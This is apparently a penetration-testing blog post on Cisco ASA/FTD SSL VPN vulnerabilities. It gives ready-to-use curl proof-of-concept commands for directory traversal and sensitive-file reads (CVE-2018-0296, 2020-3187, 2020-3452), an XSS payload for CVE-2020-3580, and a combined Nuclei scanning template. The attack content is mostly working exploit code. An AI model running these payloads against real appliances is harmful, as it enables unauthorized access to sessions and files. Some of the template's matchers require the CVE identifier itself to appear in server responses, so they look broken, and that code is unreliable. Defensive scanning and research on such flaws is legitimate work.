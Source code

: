 ```yaml
---
layout: post
title: Overview Cisco SSL VPN Service
categories: [Pentesting,RedTeam, 2G ]
---
```

Analysis of some CVEs present for this software.

## Common CVE's


### CVE-2018-0296
A vulnerability in the web interface of the Cisco Adaptive Security Appliance (ASA) could allow an unauthenticated, remote attacker to cause an affected device to reload unexpectedly, resulting in a denial of service (DoS) condition. It is also possible on certain software releases that the ASA will not reload, but an attacker could view sensitive system information without authentication by using directory traversal techniques

Check if the endpoint is vulnerable 
```
curl -i -k "https://HOST/+CSCOU+/../+CSCOE+/files/file_list.json?path=/sessions" --path-as-is
```

POC
```
curl -i -k "https://HOST/+CSCOU+/../+CSCOE+/files/file_list.json" --path-as-is
curl -i -k "https://HOST/+CSCOU+/../+CSCOE+/files/file_list.json?path=/sessions" --path-as-is

``` 

Reference:
- [HackerOne](https://hackerone.com/reports/696400)
- [NIST](https://nvd.nist.gov/vuln/detail/cve-2018-0296)
- [Github Poc](https://github.com/yassineaboukir/CVE-2018-0296)

### CVE-2020-3580 - XXS 
The vulnerabilities are due to insufficient validation of user-supplied input by the web services interface of an affected device. An attacker could exploit these vulnerabilities by persuading a user of the interface to click a crafted link. A successful exploit could allow the attacker to execute arbitrary script code in the context of the interface or allow the attacker to access sensitive, browser-based information.

VIA POST 
```
 /+CSCOE+/saml/sp/acs?tgname=a
SAMLResponse="><svg/onload=alert('xss')>
```
Reference:
- [HackerOne](https://hackerone.com/reports/1243650)


### CVE-2020-3187 
A vulnerability in the web services interface of Cisco Adaptive Security Appliance (ASA) Software and Cisco Firepower Threat Defense (FTD) Software could allow an unauthenticated, remote attacker to conduct directory traversal attacks and obtain read and delete access to sensitive files on a targeted system.


Check if the endpoint is vulnerable 
```
/+CSCOE+/session_password.html -> 200 = Vulnerable
/+CSCOE+/session_password.html -> 404 = Patched
```
Exploit 
```
curl -H "Cookie: token=../+CSCOU+/csco_logo.gif" https://HOST/+CSCOE+/session_password.html
```
Reference:
- [HackerOne](https://hackerone.com/reports/987090)
- [NIST](https://nvd.nist.gov/vuln/detail/cve-2020-3187)

### CVE-2020-3452
A vulnerability in the web services interface of Cisco Adaptive Security Appliance (ASA) Software and Cisco Firepower Threat Defense (FTD) Software could allow an unauthenticated, remote attacker to conduct directory traversal attacks and read sensitive files on a targeted system.

POC
```
/+CSCOT+/translation-table?type=mst&textdomain=/%2bCSCOE%2b/portal_inc.lua&default-language&lang=../
/+CSCOT+/translation-table?type=mst&textdomain=/%2bCSCOE%2b/wrong_url.html&default-language&lang=../
```
OR 
```
curl -i -s -k -X $'GET' \
    -H $'Host: HOST' -H $'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8' -H $'Accept-Language: en-US,en;q=0.5' -H $'Accept-Encoding: gzip, deflate' -H $'Referer: https://HOST/+CSCOE+/logon.html?fcadbadd=1' -H $'DNT: 1' -H $'Connection: close' -H $'Cookie: webvpnlogin=1; webvpnLang=en' -H $'Upgrade-Insecure-Requests: 1' \
    -b $'webvpnlogin=1; webvpnLang=en' \
    $'https://HOST/+CSCOT+/translation-table?type=mst&textdomain=/%2bCSCOE%2b/portal_inc.lua&default-language&lang=../'
```
Reference: 
- [HackerOne](https://hackerone.com/reports/943717)
- [HackerOne](https://hackerone.com/reports/924407)
- [NIST](https://nvd.nist.gov/vuln/detail/cve-2020-3452)

## Nuclei Template

```
id: cisco-multiple-cves

info:
  name: Cisco ASA/FTD Multiple CVEs Exploit
  author: security-researcher
  severity: critical
  description: |
    Este template testa múltiplas vulnerabilidades no Cisco ASA e FTD, incluindo Local File Inclusion (LFI), Directory Traversal e Cross-Site Scripting (XSS). As CVEs incluídas são CVE-2018-0296, CVE-2020-3580, CVE-2020-3187 e CVE-2020-3452.
  tags: cve,cisco,asa,ftd,lfi,xss,dir-traversal

http:
  - method: GET
    path:
      - "{{BaseURL}}/+CSCOU+/../+CSCOE+/files/file_list.json?path=/sessions"
    headers:
      Accept-Encoding: deflate
    matchers-condition: and
    matchers:
      - type: word
        part: body
        words:
          - "///sessions"
      - type: status
        status:
          - 200
      - type: word
        words:
          - "CVE-2018-0296"

  - method: POST
    path:
      - "/+CSCOE+/saml/sp/acs?tgname=a"
    body: "SAMLResponse=%22%3E%3Csvg%2Fonload%3Dalert%28document.domain%29%3E"
    headers:
      Cookie: webvpnlogin=1; webvpnLang=en
      User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:89.0) Gecko/20100101 Firefox/89.0
      Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,/;q=0.8
      Accept-Language: en-GB,en;q=0.5
      Accept-Encoding: gzip, deflate
      Content-Type: application/x-www-form-urlencoded
      Upgrade-Insecure-Requests: 1
      Connection: close
    matchers-condition: and
    matchers:
      - type: word
        words:
          - "<svg/onload=alert(document.domain)>"
        part: body
      - type: word
        words:
          - "CVE-2020-3580"

  - method: GET
    path:
      - "{{BaseURL}}/+CSCOE+/session_password.html"
    matchers-condition: and
    matchers:
      - type: word
        part: header
        words:
          - webvpn
          - Webvpn
      - type: status
        status:
          - 200
      - type: word
        words:
          - "CVE-2020-3187"

  - method: GET
    path:
      - "{{BaseURL}}/+CSCOT+/translation-table?type=mst&textdomain=/%2bCSCOE%2b/portal_inc.lua&default-language&lang=../"
      - "{{BaseURL}}/+CSCOT+/oem-customization?app=AnyConnect&type=oem&platform=..&resource-type=..&name=%2bCSCOE%2b/portal_inc.lua"
    matchers:
      - type: word
        words:
          - "INTERNAL_PASSWORD_ENABLED"
          - "CONF_VIRTUAL_KEYBOARD"
        condition: and
      - type: word
        words:
          - "CVE-2020-3452"
```
Based on:
- [CVE-2018-0296.yaml](https://github.com/projectdiscovery/nuclei-templates/blob/main/http/cves/2018/CVE-2018-0296.yaml)
- [CVE-2020-3580.yaml](https://github.com/projectdiscovery/nuclei-templates/issues/1790)
- [CVE-2020-3187.yaml](https://github.com/projectdiscovery/nuclei-templates/blob/main/http/cves/2020/CVE-2020-3187.yaml)
- [CVE-2020-3452.yaml](https://github.com/projectdiscovery/nuclei-templates/blob/main/http/cves/2020/CVE-2020-3452.yaml)
